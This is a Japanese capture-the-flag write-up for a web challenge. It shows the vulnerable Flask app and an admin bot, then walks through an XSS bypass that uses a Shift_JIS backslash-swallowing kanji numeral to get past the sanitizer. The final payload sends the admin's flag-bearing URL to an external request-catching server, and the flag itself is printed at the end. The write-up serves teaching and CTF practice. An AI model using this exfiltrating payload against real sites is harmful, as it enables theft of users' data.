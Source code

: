 # Num-restaurant🍷

## 問題文
Adminがお腹を空かせています。  
ただ、嫌いなものがあるようです。  
[http://160.251.83.96:31415](http://160.251.83.96:31415/)  
[app.py](files/app.py)  

## 難易度
**medium**  

## 作問にあたって
5C問題問を出したかったのですが、それだけだと簡単すぎるのでpythonの`isnumeric`と組み合わせました。  
ブラウザのバグにより、文字コード判定がおかしくなることでXSSが発生する脆弱性を見つけたことがあり、それが元ネタです。  
懐かしいのもイイですよね...。  

## 解法
サイトにアクセスすると謎のメニューが表示されている。  
![site.png](images/site.png)  
配布されたapp.pyは以下のようだった。  
```python
~~~
def sanitize_price(price):
    if not price.isnumeric():
        return "10000000"
    return price

def sanitize_meal(meal):
    if not meal.isascii():
        return "Kasumi"
    #Is it possible to block XSS?
    return "".join([c for c in meal if ord(c) > 0x1f]).replace("\\", "\\\\").replace("\"", "\\\"").replace("'", "\\'").replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("http", "num")

@app.route("/")
def num_restaurant():
    niku = random.randint(1, 1000000)
    sushi = random.randint(1, 1000000)
    yasai = random.randint(1, 1000000)
    price = request.args.get("price")
    meal = request.args.get("meal")
    if (not price) or (not meal):
        script = ''
    else:
        script = f'''<script>
var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";
alert(text);
</script>
'''
    html = f"""<!DOCTYPE html>
<html lang="ja">
<head>
<title>Num-restaurant</title>
{script}
</head>
<body>
<h1>Welcome to Num-restaurant 🔥</h1>
<a href="?price={niku}&meal=Niku"><p style="font-size:200%;">￥{niku} / Niku🍖</p></a>
<a href="?price={sushi}&meal=Sushi"><p style="font-size:200%;">￥{sushi} / Sushi🍣</p></a>
<a href="?price={yasai}&meal=Yasai"><p style="font-size:200%;">￥{yasai} / Yasai🥗</p></a>
</body>
</html>
"""
    if request.args.get("encoding") == "shift_jis":
        return Response(html, content_type='text/html; charset=shift_jis')
        #No one uses it anymore, but I implemented it because I was born in 1997 and missed it.
    else:
        return Response(html, content_type='text/html; charset=utf-8')
~~~
```
各メニューはリンクとなっていて、`price`、`meal`、`encoding`を指定できるようだ。  
サニタイズは完璧なように見え、`price`は数字、`meal`はASCIIとなっている。  
試しに`?price=1&meal=Niku`にアクセスすると`￥1Niku😋Yummy!!`とalertされた。  
`shift_jis`が怪しく、有名な5C問題XSSが狙えそうだが、サニタイズによりマルチバイト文字が利用できないように見える。  
次にflagの場所を確認すると、以下のように`/admin`よりAdminがクエリに渡しアクセスしている。  
```python
~~
        url = f'http://160.251.83.96:31415?price={urllib.parse.quote(request.form["price"])}\
&meal={urllib.parse.quote(request.form["meal"])}\
&encoding={urllib.parse.quote(request.form["encoding"])}'
        try:
            flag = os.getenv("FLAG")
            cmd = f'chromium-browser --no-sandbox --headless --disable-gpu "{url}&flag={flag}"'
            subprocess.run(cmd, shell=True, timeout=3)
        except:
            return "Admin🥰Yummy!!"
        return "Admin🤤Yucky!!"
~~~
```
アクセスするURLは指定されておりchromiumのExploitでのRCEやOSコマンドインジェクションは狙えない(はず)ため、やはりXSSするしかないようである。  
方針として5C問題を狙い、`";alert(1);//`のサニタイズ結果である`\\";alert(1);//`の前方のバックスラッシュを消すことを考える。  
例として``表";alert(1);//``などが考えられる。  
ここで問題となるのが、`meal`にはマルチバイト文字を含めることができない点である。  
よくソースを観察すると`var text = "￥{sanitize_price(price)}{sanitize_meal(meal)}😋Yummy!!";`であるので、`price`にマルチバイト文字を含めても同様の結果が引き起こせそうだ。  
ただし、`price`には`isnumeric`がかかっているため、数字以外は入力できない。  
ここで以下のような`isnumeric`の気持ち悪い仕様を思い出す。  
```python
>>> "12345".isnumeric()
True
>>> "表".isnumeric()
False
>>> "百".isnumeric()
True
```
つまり漢数字が使えるようだ。  
あとは漢数字の中から5C問題に利用できるものを見つければよい。  
結果`十`が利用できることがわかる。  
これにより`price=十`、`meal=";alert(1);//`、`encoding=shift_jis`でXSSが刺さるようになる。  
`http://160.251.83.96:31415?price=十&meal=";alert(1);//&encoding=shift_jis`にアクセスすると確認できる。  
XSSが達成できたので、あとはアクセスしたURLを取得し、リクエストが受け取れるサーバに投げればよい。  
リダイレクトさせようとすると、alertなどゴミがついているのでchromiumではリダイレクトがうまく走らない(firefoxでは無視される)。  
alert関数を書き換えてやればうまく通る。  
`http`が`num`に変換されるのは、スキームを記述しなければよいだけである。  
最終的な送信クエリは以下になる。  
`price`: `十`  
`meal`: ```"-(location.href=`//[リクエストが受け取れるサーバ]?s=`+btoa(location.href));alert=function(){};//```  
`encoding`: `shift_jis`  
※`[リクエストが受け取れるサーバ]`は[https://requestbin.com/](https://requestbin.com/)などを使うとよい。  
これを`/admin`で送信してやる(encoding入力欄がhiddenなので注意)。  
サーバで受け取ったbase64されたデータをデコードするとflagが得られる。  
![flag.png](images/flag.png)  

## imctf{1_d0n7_w4n7_70_347_5C_4nym0r3}

